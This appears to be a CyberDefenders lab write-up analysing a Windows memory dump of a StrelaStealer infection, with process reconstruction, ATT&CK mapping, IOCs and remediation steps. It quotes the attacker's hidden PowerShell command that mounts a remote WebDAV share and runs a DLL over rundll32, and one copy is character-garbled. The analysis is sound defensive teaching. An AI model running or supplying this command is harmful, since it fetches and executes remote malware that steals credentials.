




# StrelaStealer Multi-Stage Attack — Memory Forensics of WebDAV & Rundll32 Execution

**Incident Type:** Multi-Stage Malware Execution / Infostealer (StrelaStealer)
**Date:** November 11, 2026
**Status:** Completed
**Environment:** CyberDefenders – *Reveal Lab* (simulated SOC/IR exercise)

## Executive Summary

An endpoint (`DESKTOP-T51LU0E`) was suspected of compromise following anomalous script and network activity. A full Windows memory dump (`192-Reveal.dmp`) was provided for offline triage with **Volatility 3** to reconstruct the execution chain, determine the compromised user context, map adversary tradecraft to MITRE ATT&CK, and attribute the payload to its malware family.

Analysis revealed a classic multi-stage **StrelaStealer** infection chain occurring on `2024-07-15` at `07:00:03 UTC` under user account **`Elon`**. A hidden PowerShell process (`powershell.exe`, PID `3692`, PPID `4120`) mounted an attacker-controlled remote WebDAV share (`\\45.9.74.32@8888\davwwwroot\`) using `net use` and immediately invoked `rundll32` to execute a second-stage DLL payload (`3435.dll`, exported function `entry`) directly over the network — avoiding dropping the DLL directly onto the local filesystem.

## Investigation Workflow

1. **Process Tree & Command-Line Reconstruction** – inspect process hierarchies and full command-line arguments in `192-Reveal.dmp`.
2. **Execution Chain Deconstruction** – break down each stage (hidden PowerShell, WebDAV mount, remote DLL execution).
3. **ATT&CK Technique Mapping** – correlate the LOLBin proxy execution mechanism with MITRE ATT&CK documentation.
4. **User Session Attribution** – identify the compromised host and user account via `windows.sessions`.
5. **Threat Intelligence Correlation** – match the TTPs (`net use` + WebDAV `davwwwroot` + `rundll32` DLL `entry` export) to the corresponding malware family.
6. **Remediation** – contain the endpoint, block the WebDAV staging IP, and deploy behavioral detection rules.

---

## 1. Process & Command-Line Analysis — Uncovering the Hidden PowerShell Chain

Inspecting the process tree and embedded command lines in `192-Reveal.dmp` immediately exposed a suspicious PowerShell execution running alongside `wordpad.exe` at `2024-07-15 07:00:03 UTC`:

```powershell
vol -f .\192-Reveal.dmp windows.pstree
```


*Figure 1 – `powershell.exe` (PID `3692`, PPID `4120`, offset `0xc90c0358b080`) launched at `2024-07-15 07:00:03 UTC` with a chained one-liner:*

```powershell
powershell.exe -windowstyle hidden net use \45.9.74.32@8888\davwwwroot\ ; rundll32 \45.9.74.32@8888\davwwwrootã5.dll,entry
```

**Why this is dangerous:** This single command combines three evasion techniques into one clean chain:
1. **`-windowstyle hidden`** suppresses the console window so the victim sees nothing suspicious while the attack runs.
2. **`net use \\45.9.74.32@8888\davwwwroot\`** abuses Windows WebClient (WebDAV) over non-standard TCP port `8888` to mount a remote directory (`davwwwroot`) without needing traditional SMB port `445` (which is usually blocked at corporate perimeters).
3. **`rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`** executes the second-stage malicious DLL (`3435.dll`) at its `entry` export function directly from the remote WebDAV share, minimizing local disk artifacts.

## 2. MITRE ATT&CK Correlation — System Binary Proxy Execution (`T1218.011`)

To classify the second-stage execution method accurately for detection engineering and SOC reporting, I cross-referenced the `rundll32` DLL invocation pattern against the MITRE ATT&CK knowledge base:


*Figure 2 – MITRE ATT&CK sub-technique **T1218.011 (System Binary Proxy Execution: Rundll32)** specifically covers abusing `rundll32.exe {DLLname, DLLfunction}` to proxy execution of malicious DLL payloads and bypass application allowlists.*

**Why this matters for detection:** Because `rundll32.exe` is a legitimate, signed Windows binary present on every host, alert rules based purely on process names create massive false positives. Effective detection must focus on suspicious command-line patterns — especially `rundll32.exe` loading DLLs from UNC/WebDAV paths (`\\<IP>@<port>\...`) or spawned by `powershell.exe`.

## 3. Compromised Account & Timeline — `windows.sessions`

Next, I enumerated Windows user sessions to determine which host and user account executed the malicious chain and reconstruct the exact sequence of events:

```powershell
vol -f .\192-Reveal.dmp windows.sessions
```


*Figure 3 – Session `1` belongs to **`DESKTOP-T51LU0E/Elon`**, revealing a tight 9-second execution timeline on `2024-07-15`:*

- **`06:59:57 UTC`** – `smartscreen.exe` (PID `2820`) triggered (consistent with opening a downloaded lure/shortcut file).
- **`07:00:03 UTC`** – `wordpad.exe` (PID `9112`), `powershell.exe` (PID `3692`), and `conhost.exe` (PID `6892`) launched simultaneously.
- **`07:00:06 UTC`** – `net.exe` (PID `2416`) and `svchost.exe` (PID `832`, WebClient service) spun up to establish the WebDAV mount.

**Analyst takeaway:** Seeing `smartscreen.exe` fire six seconds before `wordpad.exe` and `powershell.exe` strongly points to user-driven initial execution (such as opening a malicious archive/LNK lure) while `wordpad.exe` serves as a decoy or execution artifact under the `Elon` user context.

## 4. Threat Intelligence Attribution & Lab Verification

Correlating the exact tradecraft — hidden PowerShell invoking `net use` against an IP-based `@8888\davwwwroot` WebDAV server followed by `rundll32` executing a numerically named DLL via its `,entry` export — matches documented **StrelaStealer** campaigns, a credential stealer focused on harvesting email credentials (such as Microsoft Outlook and Mozilla Thunderbird).


*Figure 4 – All seven investigation checkpoints verified, confirming the process name (`powershell.exe`), parent PID (`4120`), second-stage DLL (`3435.dll`), remote share (`davwwwroot`), ATT&CK sub-technique (`T1218.011`), compromised account (`Elon`), and malware family (`StrelaStealer`).*

## 5. Investigation Summary

| Investigation Item | Finding |
|--------------------|---------|
| Compromised Host | `DESKTOP-T51LU0E` |
| Compromised User | `Elon` (Session `1`) |
| Malicious Process | `powershell.exe` (PID `3692`, PPID `4120`) |
| Execution Timestamp | `2024-07-15 07:00:03 UTC` |
| Remote WebDAV Server | `45.9.74.32:8888` |
| Remote Shared Directory | `davwwwroot` |
| Second-Stage Payload | `3435.dll` (export: `entry`) |
| MITRE ATT&CK Sub-Technique | `T1218.011` – System Binary Proxy Execution: Rundll32 |
| Malware Family | `StrelaStealer` |

## Indicators of Compromise

| Type | Value |
|------|-------|
| Malicious IP & Port | `45.9.74.32:8888` |
| WebDAV Share Path | `\\45.9.74.32@8888\davwwwroot\` |
| Second-Stage DLL | `3435.dll` (UNC path: `\\45.9.74.32@8888\davwwwroot\3435.dll`) |
| Malicious Command Line | `powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry` |

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|-----------|----|-------------|
| Command and Scripting Interpreter: PowerShell | T1059.001 | Hidden PowerShell (`-windowstyle hidden`) orchestrated share mounting and DLL execution. |
| System Binary Proxy Execution: Rundll32 | T1218.011 | `rundll32` executed remote payload `3435.dll` via exported function `entry`. |
| Ingress Tool Transfer | T1105 | Second-stage DLL retrieved and executed from an attacker-hosted WebDAV share (`45.9.74.32:8888`). |
| Credentials from Password Stores | T1555 | StrelaStealer harvests saved email client credentials (Outlook/Thunderbird) from infected endpoints. |

## Remediation & Lessons Learned

1. **Isolate `DESKTOP-T51LU0E` and reset `Elon`'s credentials** — assume email accounts and locally stored credentials on the endpoint were exfiltrated by StrelaStealer; rotate passwords and revoke active OAuth/mail sessions immediately.
2. **Block `45.9.74.32` at perimeter firewalls and proxies** — also inspect outbound traffic logs for any non-standard WebDAV connections (`@8888` or `WebClient` user-agent strings) from other corporate hosts.
3. **Disable the Windows WebClient service where unneeded** — most enterprise workstations do not require outbound WebDAV mounts to internet IPs. Disabling `WebClient` breaks `net use \\<IP>@<port>\davwwwroot` delivery chains outright.
4. **Deploy SIEM/EDR detection for remote `rundll32` execution** — alert whenever `rundll32.exe` references a UNC path (`\\`), IP address, `@<port>`, or `davwwwroot`, or is spawned directly by `powershell.exe` with `-windowstyle hidden`.
5. **Correlate process timestamps across plugins** — pairing `windows.pstree` with `windows.sessions` turned a static command line into a clear 9-second attack narrative (`smartscreen.exe` → `wordpad.exe` / `powershell.exe` → `net.exe`).
